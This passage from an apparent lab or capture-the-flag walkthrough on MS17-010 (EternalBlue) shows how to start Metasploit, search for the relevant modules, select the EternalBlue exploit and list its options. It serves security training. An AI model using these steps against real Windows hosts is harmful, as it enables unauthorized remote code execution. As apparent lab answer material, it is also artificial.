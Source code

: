 ### #2.1

Start Metasploit

~~~
msfconsole
~~~

### #2.2

Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

First search for `ms17-010`:

~~~
msf5 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
~~~

We'll run this exploit: `exploit/windows/smb/ms17_010_eternalblue`

### #2.3

Show options and set the one required value. What is the name of this value? (All caps for submission)

~~~
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
~~~